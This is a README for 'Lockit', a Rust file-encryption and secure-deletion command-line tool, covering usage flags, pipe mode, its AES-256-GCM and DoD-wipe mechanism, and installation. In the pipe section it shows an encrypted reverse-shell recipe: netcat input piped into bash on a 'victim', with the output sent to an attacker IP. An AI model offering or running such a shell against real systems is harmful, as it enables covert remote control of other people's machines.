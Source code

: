 # Lockit
Lock it, unlock it.

⚡ Blazing fast encryption suite.

```bash
./lockit <file> <file2> <dir1>             # Process files in default mode (encrypt/decrypt)
./lockit encrypt <file> <file2> <dir1>     # Encrypt specific files
./lockit encrypt <file> -p                 # Encrypt a file with a custom passphrase.
./lockit encrypt <dir>                     # Encrypt all files in a directory
./lockit decrypt <dir/file>                # Decrypt a file or directory
./lockit encrypt <dir> --dir               # Compress, tar, and encrypt entire directories
./lockit remove/delete/rm/del <dir/file>   # Securely delete a file / directory.
./lockit remove <file> <file2> --skip-dod  # Skip DoD overwrite passes.
./lockit encrypt --pipe                    # Process as pipe.
./lockit decrypt --pipe -p                 # Process as pipe, custom passphrase.
./lockit --encrypt-filenames               # Encrypt file names
./lockit --no-encrypt-filenames            # Keep file names unchanged
./lockit --self-destruct                   # Remove Lockit after use
./lockit --no-self-destruct                # Retain Lockit after use
```

## Pipe
If `--pipe` is specified, the program processes the input from stdin and outputs to stdout instead of handling files or directories.

```bash
echo "Secret message" | ./lockit encrypt --pipe | ./lockit decrypt --pipe
```

That way you can encrypt files through IO:
```
cat plaintext.txt | ./lockit encrypt --pipe > encrypted.enc
```

Or use it with netcat or other tools. 
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe
echo "This is a very secret message" | ./lockit encrypt --pipe | nc localhost 9999
```

You can wrap your reverse shell around it and you'll have it encrypted. Example:
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe | bash 2>&1 | ./lockit encrypt --pipe | nc 192.168.50.160 9998 # victim receiving commands
nc -lvnp 9998 | ./lockit decrypt --pipe # attacker receiving output
./lockit encrypt --pipe | nc 192.168.60.244 9999 # attacker sending commands
```

## Mechanism
- Lockit compresses files using zstd and secures them with AES-256-GCM encryption.
- Lockit provides secure file deletion that follows DoD 5220.22-M standard.

## But I have SSD
Yes, although DoD 5220.22-M short wipe is good enough for most cases, due to SSD wear leveling, you won't be able to remove the data fully using software. The best way to handle this is combination of hardware TRIM erase and cryptographic erasure. Encrypt the disk fully and delete the key.

## Installation
```bash
git clone https://github.com/krystianbajno/lockit
cargo build --release
```

## Customizing Default Settings
To change default settings, simply modify `build.rs`.